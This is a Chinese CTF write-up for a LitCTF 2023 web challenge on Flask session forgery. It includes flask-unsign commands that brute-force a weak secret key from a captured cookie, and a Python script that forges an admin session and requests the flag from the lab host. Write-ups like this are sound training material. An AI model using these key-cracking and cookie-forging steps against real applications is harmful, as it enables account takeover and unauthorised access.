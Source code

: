 ```yaml
---
title: NSSCTF入门题单[LitCTF 2023]WriteUP-NSSCTF-3872
date: 2024-11-29
tags:
 - CTF
 - NSSCTF
 - WriteUP
categories:
 - 随笔 Essay 
isShowComments: true
publish: true








---
```


<Boxx/>

[LitCTF 2023]这套题是Web方向入门题单，这是我的第21题

[[toc]]

- 题单【[传送门](https://www.nssctf.cn/problem/3861)】
- 主办方WriteUP【[传送门](https://dqgom7v7dl.feishu.cn/docx/WdHvd735koqwJxxulA2cv4K4nKf)】
- 主办方WriteUP视频【[传送门](https://www.bilibili.com/video/BV1sm4y187EK)】

| 题目编号 | 题目名称       | 题目方向 | 难度 |
| -------- | -------------- | -------- | ---- |
| 3872     | Flag点击就送！ | Web      | 1    |

<!-- more -->

# 题目21：Flag点击就送！

### 题目描述：大型Flag赠送活动开始啦，不过只有管理员才能拿到

### 考点：Flask  session伪造

### 预期解：

我们进入靶机后，看到了提示“欢迎参加LitCTF，告诉我你的名字吧”，我们随便输入一个名字，弹出一个按钮“拿flag”，点击以后提示“只有管理员才能拿flag耶”。

此时我们返回初始页面，尝试输入admin或者root，发现都不可以，所以我们准备使用工具进行爆破，这里用到的工具是Python，安装了flask-unsign[wordlist]的库，推荐使用清华源进行安装。具体安装过程不多做介绍。

默认是我们有了一个字典文件，字典内容为

```
LitCTF2023
LitCTF
123456
```

我们使用如下命令来执行爆破命令

```
flask-unsign --unsign --cookie "eyJuYW1lIjoiMTIzIn0.Z0mhXQ.CjDOrMBNmg28PtyaZGGdtE1MSlA" -w 字典路径 --no-literal-eval
```

这里的cookie是打开F12后，在Application里面，找到Cookies，看到了一个session的cookie，复制它的值

![image-20241129191712497](/img/essay/image-20241129191712497.png)

在执行命令后，我们得到了如下结果，可以看到应该是LitCTF才是我们想要的用户名。

```
(comvision) C:\Users\19854>flask-unsign --unsign --cookie "eyJuYW1lIjoiMTIzIn0.Z0mhXQ.CjDOrMBNmg28PtyaZGGdtE1MSlA" -w C:\Users\19854\Desktop\pass.txt --no-literal-eval
[*] Session decodes to: {'name': '123'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 3 attempts
b'LitCTF'
```

确认LitCTF就是用户名以后，我们用一把梭工具进行伪造

```
import requests
import string
import subprocess

SECRET_KEY = "LitCTF"

cmd_out = subprocess.check_output(['flask-unsign', '--sign', '--cookie', '{\'name\': \'admin\'}', '--secret', SECRET_KEY])

cookie = {'session' : cmd_out.decode().rstrip()}
response = requests.get('http://node4.anna.nssctf.cn:28088/flag', cookies=cookie)

print(response.text)
```

伪造的方式多种多样，[flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)

```
python3 flask-session-cookie-manager3.py decode -c "session值" (-s "key值")
python3 flask-session-cookie-manager3.py encode -s "key值" -t "我们需要伪造的值"
```

```
python3 flask-session-cookie-manager3.py encode -s 'LitCTF' -t '{"name":"admin"}'
# eyJuYW1lIjoiYWRtaW4ifQ.ZOBwTg.fCkX986VBbFDKMaipQ5QjHJAkQg
```

此时再访问`/flag`，将当前页面cookie改为伪造的值，刷新页面即可看到flag